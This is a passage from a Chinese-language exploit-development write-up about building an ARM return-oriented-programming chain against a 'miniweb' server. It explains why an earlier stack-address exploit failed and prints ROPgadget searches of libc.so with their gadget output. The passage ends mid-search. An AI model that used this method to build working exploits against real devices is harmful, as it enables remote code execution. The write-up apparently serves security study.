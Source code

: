然而，上面这种利用有个缺陷，一开始我只在patch后的miniweb中测过，后来发现在没有patch过的miniweb中是不行的，原因就是栈的地址变化了（之前patch后的miniweb中一直没变化），cmd字符串定位错误。

不想再去找带fork的miniweb的栈地址了，并且每次fork应该都会变，干脆干点稳定的，类似mov pc，sp之类的执行栈上的代码zhaoge

### <a class="reference-link" name="4.4%20ROP-%E5%B0%9D%E8%AF%95%E6%89%A7%E8%A1%8C%E6%A0%88%E4%B8%8A%E7%9A%84%E6%95%B0%E6%8D%AE"></a>4.4 ROP-尝试执行栈上的数据

接下来寻找就是跳转到栈上执行代码的ROP

目标是：mov pc，sp，需要保证的：每一步需要能控制跳转

这里是从后往前找，从最终目标开始找起。

1.首先我想找mov pc，sp一类的，没有

2.然后找mov rX,sp;mov pc， rX 这种的，对于mov pc， rX ，只有 mov pc, r5; OK，这是最后一步不需要考虑之后的跳转，接下来需要保证的是将r5设置为sp

u:~/Desktop# ROPgadget —binary libc.so |grep “mov pc, r”<br>
0x0004d8cc : bne #0x4d8f8 ; mov lr, pc ; mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5<br>
0x0004d8c0 : bx lr ; mov r0, r6 ; tst r5, #1 ; bne #0x4d904 ; mov lr, pc ; mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5<br>
0x0004d8d0 : mov lr, pc ; mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5<br>
0x0004d8d4 : mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5<br>
0x0004d8c4 : mov r0, r6 ; tst r5, #1 ; bne #0x4d900 ; mov lr, pc ; mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5<br>
0x0004d8c8 : tst r5, #1 ; bne #0x4d8fc ; mov lr, pc ; mov pc, r5 ; mov r7, #1 ; svc #0 ; mov lr, pc ; bx r5

3.然后就想找mov r5,sp,没有

4.接着找mov rX,sp;mov r5,rX，接下来每一都需要保证能控制跳转

对于mov rX,sp，只有mov r0,sp，其他的rX和sp都没有，ROPgadget —binary libc.so |grep “mov r0, sp” ，有个还不错的，其中r6可用pop`{`。。。r6`}`控制

0x000240f4 : beq #0x24190 ; mov r2, #0x18 ; mov r1, #0 ; mov r0, sp ; blx r6(r6可用pop`{`。。。r6`}`控制)

5.mov r5,rX就只能找mov r5,r0,有是有，只是都不太好用，看到很多还没到可控制的跳转（pop `{`pc`}`）就直接bl #address了,比如像这种 mov r5, r0 ; mov r0, r4 ; bl #0x4371c ; mov r0, r5 ; pop `{`r4, r5, r6, pc`}`

找来找去找到下面这条

root[@ubuntu](https://github.com/ubuntu):~/Desktop# ROPgadget —binary libc.so |grep “mov r5, r”<br>
0x0005244c : add r3, pc, r3 ; ldr r3, [r3] ; mov r5, r0 ; cmp r3, #0 ; mov r4, r1 ; beq #0x52490 ; blx r3

最后跳转是r3控制的，所以在执行这句之前必须设置好r3,需要注意的是r3并不能找到 pop `{`r3，。。。`}` 来控制;

6.接着找 ROPgadget —binary libc.so |grep “mov r3, r”，并可控pc的gadget

root[@ubuntu](https://github.com/ubuntu):~/Desktop# ROPgadget —binary libc.so |grep “mov r3, r”<br>
0x0002e288 : subs r2, r3, #0 ; bne #0x2e28c ; b #0x2e2ac ; mov r3, r2 ; add r0, r4, r3 ; pop `{`r4, pc`}`

7.r2同样没有pop`{`r2,…`}`可以设置，

接着找root[@ubuntu](https://github.com/ubuntu):~/Desktop# ROPgadget —binary libc.so |grep “mov r2, r”
